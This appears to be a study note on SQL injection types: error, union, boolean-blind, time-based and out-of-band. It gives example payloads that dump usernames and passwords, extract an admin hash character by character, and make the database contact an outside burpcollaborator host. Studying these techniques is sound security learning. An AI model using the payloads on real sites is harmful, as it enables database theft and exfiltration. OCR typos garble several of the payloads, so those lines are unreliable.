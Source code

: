 ```yaml
---
dg-publish: true
---
```

---
# OWASP top 10 web vuln:

![](../attachments/Pasted%20image%2020250202004548.png)

---

# types of SQL Injection

![](../attachments/Pasted%20image%2020250202005406.png)

## In-band (classic):
· In-band SQLi occurs when the attacker uses the same communication
channel to both launch the attack and gather the result of the attack
Retrieved data is presented directly in the application web page
· Easier to exploit than other categories of SQLi
### Error:
· Error-based SQLi is an in-band SQLi technique that forces the database
to generate an error, giving the attacker information upon which to
refine their injection.
Example:
Input:
`www.random.com/app.php?id='`
Output:
`You have an error in your SQL sytax, check the manual that corresponds to your MySQL server version ...`
### Union:
· Union-based SQLI is an in-band SQLi technique that leverages the
UNION SQL operator to combine the results of two queries into a
single result set
· Example:
Input:
```
www.random.com/app.php?id=' UNION SELECT username, password FROM users --
```
Output:
```
carlos
afibh9cjnkuwcsfobs7h
administrator
tn8f921skp5dzoy7hxpk
```


## inferential (blind):
· SQLi vulnerability where there is no actual transfer of data via the web
application
· Just as dangerous as in-band SQL injection
· Attacker able to reconstruct the information by sending particular requests
and observing the resulting behavior of the DB Server.
· Takes longer to exploit than in-band SQL injection

### Boolean:
Boolean-Based Blind SQLi
· Boolean-based SQLi is a blind SQLi technique that uses Boolean
conditions to return a different result depending on whether the
query returns a TRUE or FALSE result.

Boolean-Based Blind SQLi
Example URL:
`www.random.com/app.php?id=1`

Backend Query:
`select title from product where id -1`

Payload #1 (False):
`www.randon.com/app.php?id=1 and 1=2`

Backend Query:
`select title from product where id -1 and 1-2`

Payload #2 (True):
`www.random.com/@pp.php?id-1 and 1-1`

Backend Query:
`select title from product where id -1 and 1-1`

Users Table:
```
Administrator / e3c33e889e0e1b62cb7f65c63b60c42bd77275d0e730432fc37b7e624b09ad1f
```

Payload:
```
www.random.com/app.php?id=1 and SUBSTRING( (SELECT Password FROM Users WHERE Username = "Administrator'), 1,
1) - 's'
```
Backend Query:
```
select title from product where id =1 and SUBSTRING((SELECT Password FROM Users WHERE Username =
'Administrator'), 1, 1) = 's'
```


Nothing is returned on the page --> 
Returned False -->
's' is NOT the first character of the hashed password

Payload:
```

www.random.com/app.php?id=1 and SUBSTRING( (SELECT Password FROM Users WHERE Username = "Administrator'), 1,
1) = 'e'
```

Backend Query:
```

select title from product where id =1 and SUBSTRING((SELECT Password FROM Users WHERE Username .
'Administrator'), 1, 1) = 'e'
```


litle of product id 1 is returned on the page -->
Returned True .--> "e' IS the first character of the hashed password


### Time:

· Time-based SQLi is a blind SQLi technique that relies on the database
pausing for a specified amount of time, then returning the results,
indicating a successful SQL query execution.
· Example Query:
If the first character of the administrator's hashed password is an 'a', wait for 10
seconds.
> response takes 10 seconds > first letter is 'a'
> response doesn't take 10 seconds > first letter is not 'a'



## Out-of-Band:

· Vulnerability that consists of triggering an out-of-band network
connection to a system that you control.
· Not common
· A variety of protocols can be used (ex. DNS, HTTP)
· Example Payload:
: exec master .. xp_dirtree '//0efdymgwlo5w9inae8mg4dfrgim9ay.burpcollaborator.net/a' --
